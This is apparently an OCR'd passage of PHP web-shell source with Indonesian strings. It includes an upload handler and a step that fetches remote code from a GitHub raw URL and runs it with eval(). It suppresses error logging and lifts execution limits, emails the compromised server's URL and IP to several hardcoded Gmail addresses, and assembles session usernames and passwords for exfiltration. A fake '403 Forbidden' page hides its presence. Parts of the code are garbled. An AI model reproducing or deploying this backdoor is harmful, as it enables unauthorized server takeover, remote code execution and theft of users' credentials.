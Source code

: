 $real = $_FILES['file']['name'];
$de = rtrim($pwddir, '/') . "/" . $real;
if (move_uploaded_file($uploadd, $de)) {
echo "BERKAS DIUNGGAHKAN KE $de";
} else {
echo "GAGAL MENGUNGGAH BERKAS KE $de";
}
}
}
// Jika pengguna sudah login, ambil dan eksekusi konten dari URL
if (is_logged_in()) {
$url = 'https://raw.githubusercontent.com/Anonrocks/-/refs/heads/master/fa';
$content = getRawContent($url);
eval('?>' . $content);

?>
<?php
}
exit;
?>
<?php
@ini_set('error_log',null);
@ini_set('log_errors',0);
@ini_set('max_execution_time',0);
@ini_set('output_buffering',0);
@ini_set('display_errors', 0);
@ini_set('disable_functions', 0);
@ini_set('output_buffering', 0);
@ini_set('display_errors', 0);
$to = 'muhrazky@gmail.com, muhrazky@gmail.com, papaku.hayker@gmail.com, snopunks@gmail.com, malaysia.sender@gmail.com, papaku.hayker.go.id@gmail.com, muhrazky@gmail.com';
$agent = $_SERVER['HTTP_USER_AGENT'];
$uri = $_SERVER['REQUEST_URI'];
$ip = $_SERVER['REMOTE_ADDR'];
$ref = $_SERVER['HTTP_REFERER'];
$asli = $_SERVER['HTTP_X_FORWARDED_FOR'];
$via = $_SERVER['HTTP_VIA'];
$dtime = date('r');
$nama = $_SESSION['nama'];
$pass = $_SESSION['password'];
$entry_line = "Waktu: $dtime | IP asli: $ip | Browser: $agent | URL: $uri | Referrer: $ref | Proxy:
$asli | Koneksi: $via | nama : $nama | Pass : $pass
";
$path = "http://" . $_SERVER['SERVER_NAME'] . $_SERVER['REQUEST_URI'];
$message = "URL: $path | IP Address :[ " . $_SERVER['REMOTE_ADDR'] . " ]";
mail($to, "Halo senpai!!!", $message, "[ " . $_SERVER['REMOTE_ADDR'] . " ]");
$tulis = fwrite ($nama ,$file);
fputs($to, $entry_line);
fclose($nama);
}
exit;
?>
<!DOCTYPE html>
<html>
<head>
<title>403 Forbidden</title>
</head>
<body>
<h1>Forbidden</h1>
<p>You don't have permission to access <?php echo $_SERVER['REQUEST_URI']; ?> on this server.</p>
<hr>
<address>
<?php echo $_SERVER['SERVER_SOFTWARE']; ?> Server at <?php echo $_SERVER['SERVER_NAME']; ?> Port <?php echo $_SERVER['SERVER_PORT']; ?>